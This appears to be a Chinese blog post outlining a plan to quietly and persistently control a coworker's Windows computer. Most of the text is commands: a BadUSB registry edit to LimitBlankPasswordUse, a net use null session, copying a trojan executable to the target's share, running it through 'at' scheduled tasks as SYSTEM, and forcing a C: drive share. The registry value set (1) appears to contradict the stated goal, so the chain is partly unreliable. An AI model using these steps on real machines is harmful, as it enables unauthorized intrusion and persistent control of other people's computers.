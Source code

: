 ```yaml
---
layout: mypost
title:  net use 低调持久控制同事电脑的奇怪想法
categories: [Windows,cmd]
---
```


# net use 低调持久控制同事电脑的奇怪想法

## 1 设想利用 badusb 修改组策略里的 "限制空密码登录控制台" 的选项.

```cmd
cmd /c "reg add HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Lsa /v LimitBlankPasswordUse /t REG_DWORD /d 1 /f"
```

通过修改这个选项,下一步可以利用 `net use `建立空链接.

## 2 net use

```cmd
net use \\IP "" /user:administrator
#建立空链接
net view #然后查看目标机器的共享了哪些目录?
#假设有可用的共享目录c
copy 木马.exe \\ip\c #拷贝木马文件到目标机器
#使用 at 计划任务命令
net time \\ip #查看目标机器现在的时间
at \\ip 17:55:00 cmd /c "c:\木马.exe" #通过计划任务命令运行拷贝的木马文件

#如果没有可用的共享目录
at \\ip 17:55:00 cmd /c "net share c=c: /grant:administrator,full" #使用计划任务共享一下c盘以便来使用.

ps:
at #使用了 system 权限, meterpreter [get system] 不好用的时候,也可以用来运行木马文件来进行提权.
```

